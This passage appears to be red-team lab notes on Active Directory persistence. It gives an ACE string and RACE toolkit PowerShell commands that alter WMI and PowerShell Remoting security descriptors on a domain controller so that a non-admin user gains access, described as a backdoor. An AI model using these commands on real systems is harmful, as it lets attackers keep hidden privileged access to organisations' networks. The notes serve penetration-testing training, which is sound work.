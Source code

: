 ACE for built-in administrators for WMI namespaces -

```
A;CI;CCDCLCSWRPWPRCWD;;;SID
```

#### Security Descriptors - WMI&#x20;

ACLs can be modified to allow non-admin users access to securable objects. Using the RACE toolkit -

```
C:\AD\Tools\RACE-master\RACE.ps1 (from - https://github.com/samratashok/RACE)
```

* On local machine for student1 -

```
Set-RemoteWMI -SamAccountName student1 -Verbose
```

* On remote machine for student1 without explicit credentials -

```
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

* On remote machine with explicit credentials. Only root\cimv2 and nested namespaces -

```
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
```

* On remote machine remove permissions -

```
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
```

#### Scurity Descriptors - Powershell Remoting

Using the RACE toolkit - PS Remoting backdoor not stable after August 2020 patches.

* On local machine for student1 -

```
Set-RemotePSRemoting -SamAccountName student1 -Verbose
```

* On remote machine for student1 without credentials -

```
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose
```

* On remote machine, remove the permissions -

```
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
```

#### Security Descriptors - Remote Registry&#x20;
